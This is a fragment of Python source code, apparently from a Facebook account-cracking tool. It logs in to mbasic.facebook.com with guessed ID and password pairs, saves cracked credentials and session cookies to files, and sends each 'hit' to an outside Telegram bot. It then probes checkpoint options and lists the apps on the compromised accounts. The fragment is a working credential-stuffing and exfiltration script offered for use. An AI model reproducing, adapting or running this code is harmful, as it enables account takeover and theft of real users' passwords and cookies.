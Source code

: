 				kukis = kuki.replace(f'c_user={idf};datr','sb')
				print(f'\r\x1b[1;92m𝐇𝐈𝐓 𝐀𝐂𝐂𝐎𝐔𝐍𝐓 𝐅𝐀𝐂𝐄𝐁𝐎𝐎𝐊 𝑶𝑲 \n═══════════════════\n𝒊𝒅𝒛 : '+ids+'\n═══════════════════\n𝒑𝒂𝒔 : '+pas+'\n═══════════════════\n𝑷𝑹𝑶𝑮𝑹𝑨𝑴𝑴𝑬𝑹 : @SHRUOD | @VVGGXX\n') 
				requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text="+str(tt)) 
				tt=('𝐇𝐈𝐓 𝐀𝐂𝐂𝐎𝐔𝐍𝐓 𝐅𝐀𝐂𝐄𝐁𝐎𝐎𝐊 𝑶𝑲 \n═══════════════════\n𝒊𝒅𝒛 : '+ids+'\n═══════════════════\n𝒑𝒂𝒔 : '+pas+'\n═══════════════════\n𝑷𝑹𝑶𝑮𝑹𝑨𝑴𝑴𝑬𝑹 : @SHRUOD | @VVGGXX\n')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
				cek_apk(kuki)
				break
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(3)
	loop+=1
def ceker(idf,pw):
	global cp
	ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]'
	head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
	ses = requests.Session()
	try:
		hi = ses.get('https://mbasic.facebook.com')
		ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')
		jo = ho.find('form')
		data = {}
		lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')
		print('\r%s++++ %s|%s ----> f       %s'%(b,idf,pw,x))
		open('f/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
		opsi = kent.find_all('option')
		if len(opsi)==0:
			print('\r%s---> Tap Yes / A2F (Check  Login Id Lite/Mbasic%s)'%(hh,x))
		else:
			for opsii in opsi:
				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		print('\r%s---> Cannot Check Options (Check Login In Lite/Basic)%s'%(u,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
def cek_apk(kuki):
	session = requests.Session()
	w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":"noscript=1;"+kuki}).text
	sop = bs4.BeautifulSoup(w,"html.parser")
	x = sop.find("form",method="post")
	game = [i.text for i in x.find_all("h3")]
	try:
		for i in range(len(game)):
			print ("\r%s  \033[0m              ╰─≫ %s%s"%(P,H,game[i].replace("Ditambahkan pada"," Ditambahkan pada")))